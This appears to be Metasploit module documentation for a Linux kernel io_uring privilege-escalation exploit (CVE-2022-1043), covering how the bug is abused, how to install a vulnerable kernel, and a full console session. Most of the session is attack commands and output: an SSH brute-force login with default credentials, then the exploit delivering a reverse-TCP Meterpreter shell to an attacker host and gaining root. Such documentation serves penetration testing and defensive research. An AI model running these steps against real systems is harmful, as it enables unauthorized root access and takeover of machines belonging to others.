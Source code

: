 ## Vulnerable Application

This module exploits a bug in io_uring leading to an additional `put_cred()`
that can be exploited to hijack credentials of other processes.

We spawn SUID programs to get the free'd cred object reallocated by a
privileged process and abuse them to create a SUID root binary ourselves
that'll pop a shell.

The dangling cred pointer will, however, lead to a kernel panic as soon as
the task terminates and its credentials are destroyed. We therefore detach
from the controlling terminal, block all signals and rest in silence until
the system shuts down and we get killed hard, just to cry in vain, seeing
the kernel collapse.

The bug affected kernels from v5.12-rc3 to v5.14-rc7.

Successfully tested against Ubuntu 22.04.01 with kernel 5.13.12-051312-generic

### Install

To install a vulnerable kernel on Ubuntu 22.04.01, follow these instructions:

1. Download the `linux-*` modules for a vulnerable kernel, such as https://kernel.ubuntu.com/~kernel-ppa/mainline/v5.13.12/amd64/
2. Install `libssl.1` (https://askubuntu.com/a/1403683)
   1. `echo "deb http://security.ubuntu.com/ubuntu focal-security main" | sudo tee /etc/apt/sources.list.d/focal-security.list`
   2. `sudo apt-get update`
   3. `sudo apt-get install libssl1.1`
   4. `sudo rm /etc/apt/sources.list.d/focal-security.list`
3. `sudo apt-get install build-essential`
4. `sudo dpkg -i *.deb`
5. Follow [these instructions](https://gist.github.com/chaiyujin/c08e59752c3e238ff3b1a5098322b363) to boot the vuln kernel
6. `sudo reboot`

## Verification Steps

1. Start msfconsole
2. Get an initial user shell
3. Do: `use linux/local/cve_2022_1043_io_uring_priv_esc`
4. Do: `set session #`
5. Do: `run`
6. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04.01 with kernel 5.13.12-051312-generic

Gain initial user access

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/ssh/ssh_login) > set username ubuntu
username => ubuntu
msf6 auxiliary(scanner/ssh/ssh_login) > set password ubuntu
password => ubuntu
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.13.12-051312-generic #202108180838 SMP Wed Aug 18 08:41:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:40003 -> 1.1.1.1:22) at 2022-11-25 08:47:08 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...
id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
^Z
Background session 1? [y/N]  y
```

priv esc

```
msf6 auxiliary(scanner/ssh/ssh_login) > use linux/local/cve_2022_1043_io_uring_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > exploit
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Kernel version 5.13.12-051312-generic appears to be vulnerable
[+] The target is vulnerable. > 1 CPU required, detected: 2
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Max line length is 65537
[*] Writing 8074 bytes in 1 chunks of 29166 bytes (octal-encoded), using printf
[*] Writing '/tmp/.5wGdoS' (282 bytes) ...
[*] Max line length is 65537
[*] Writing 282 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[*] [~] forking helper process...
[+] Deleted /tmp/.iMpuegK0
[+] Deleted /tmp/.5wGdoS
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:35026) at 2022-11-25 17:18:36 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.13.12-051312-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
